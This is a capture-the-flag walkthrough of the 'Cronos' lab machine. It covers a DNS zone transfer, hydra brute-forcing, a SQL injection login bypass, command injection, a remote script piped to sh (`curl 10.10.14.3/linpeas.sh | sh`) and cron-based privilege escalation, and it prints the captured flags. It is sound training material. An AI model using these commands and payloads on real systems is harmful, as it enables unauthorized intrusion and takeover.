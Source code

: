 ![[Cronos.png]]

Cronos is an easy/intermediate box that will test an attacker's knowledge of zone transfers, remote code execution, simple SQL injection, and simple privilege escalation based on abused access. Let's get into it!
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 09:59 EDT
Nmap scan report for 10.10.10.13
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.89 seconds

```
### Enumeration

Landing page![[Screenshot 2024-09-10 at 10.31.58 AM.png]]

From the jump, the landing page doesn't leave us with much other than default configuration information. Feroxbuster comes up pretty empty as well, and when doing research online, all I can find is a TSIG Buffer Overflow vulnerability, but that seems out of play and a bit out of scope for a box like this. Searchsploit shows a few repos geared toward DOS and buffer overflow attacks as well, which won't help us here. I throw a general `--script vuln` nmap scan to see if anything comes back, and nothing except DOS attacks come back. 

Looking around on the web about Apache2 Ubuntu servers, we can find information about why we encountered the landing page. It looks like we need to find the DNS name that the IP resolves to, and we can do that with a tool called `nslookup`.
Using that command we can start our service, and then specify `server 10.10.10.13` to configure it, and then simply put in the IP `10.10.10.13` for DNS information.

![[Screenshot 2024-09-10 at 11.02.53 AM.png]]

After that, we can add it to our `/etc/hosts` file, and then visit the server. 

![[Screenshot 2024-09-10 at 11.09.36 AM.png]]
![[Screenshot 2024-09-10 at 11.09.56 AM.png]]

The new landing page offers some options, and I started a feroxbuster in the background while I perused the sight. It seems to be hub for services provided by Laravel, which is a PHP based framework for building webapps. Nothing crazy going on on the backside.

Since we've got the domain name, let's do a zone transfer to find all of the hosts under this domain name. We can use the `host -l` command to do so, specifying our domain server and address afterwards to find the aliases.

`host -l cronos.htb 10.10.10.13`

![[Screenshot 2024-09-10 at 11.15.58 AM.png]]

We can add these to our `/etc/hosts` file.

When we visit the administrator site, we're met with portal. I tried a few simple credentials, but they didn't work. I'll opt for `john` and pass the list (`/usr/share/john/password.lst`) that I use find to `hydra`.  We'll need to intercept a request with Burp to know which parameters to configure.

![[Screenshot 2024-09-10 at 11.25.50 AM.png]]

Now that we've got it, let's configure `hydra`. 

```
hydra -l 'admin' -P /usr/share/john/password.lst admin.cronos.htb http-post-form "/:username=^USER^&password=^PASS^&Login=Login:Your Login Name or Password is invalid"
```

In this instance, `http-post-form` sends the post request, and the `"blah"` Specifies the username and pass parameters to be tried and the message to be shown. 

![[Screenshot 2024-09-10 at 11.33.04 AM.png]]

We find nothing of use. Let's try some sort of injection with the login field. There's a SQL injection cheatsheet I've bookmarked, and after trying some of the default instances, `admin' #` gets us in the door. This effectively ends the argument after admin is defined, meaning that we can login without a password.

![[Screenshot 2024-09-10 at 11.36.13 AM.png]]

### Initial Access

We've got access to a Net Tool that allows command injection. 

![[Screenshot 2024-09-10 at 11.37.10 AM.png]]

To probe, we can use `8.8.8.8& pwd& ps`

![[Screenshot 2024-09-10 at 11.44.46 AM.png]]

Now, let's try and get a shell. We can use Burp to modify our request. Don't forget to try different versions (bash, python, php) should one not work. Remember to URL encode!

![[Screenshot 2024-09-10 at 11.54.41 AM.png]]

![[Screenshot 2024-09-10 at 11.54.19 AM.png]]

We've got a shell as `www-data`. Some maintenance as always to stabilize our shell:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

`stty raw -echo; fg` 

`export TERM="xterm"`

If we go to the `/home/noulis/` directory, we can find our user flag waiting for us. 

`USER:6394548063775e0b161d3b2771125340`

### Privilege Escalation

Let's serve `LinPeas.sh` from our machine to the target. Make sure the server is spinning from the directory you want to serve! Syntax below:

`python -m SimpleHTTPServer 80` Our Machine

`curl 10.10.14.3/linpeas.sh | sh` Compromised Machine

Once ran, we can take a look at all of the potential red-flags we've got. Given the severity of the notification via color-coding, and the name of the machine, I think we'll use this vector here exploiting the cronjob. A cronjob is a service account that sometimes has excess access over it's domain. In this case, since we are `www-data`, anything in the `/var/www/` directory will be available to us as if we were `root`.

![[Screenshot 2024-09-10 at 12.17.42 PM.png]]

Here, the `laravel/artisan` job will be what we leverage. Because the job is ran with PHP, we'll need a PHP shell. I got one at revshell.com, and I'll make a file and serve it over the python server.

![[Screenshot 2024-09-10 at 12.26.01 PM.png]]
![[Screenshot 2024-09-10 at 12.30.32 PM.png]]

Once I've created the file, served it, and replace artisan, I'll get my listener going.

![[Screenshot 2024-09-10 at 12.32.11 PM.png]]

There she is! I'll `cd` to the root directory and grab my flag.

`ROOT:e2d2bbe3b974d0c044bfcdea242b709b`

#linux #medium #manual 

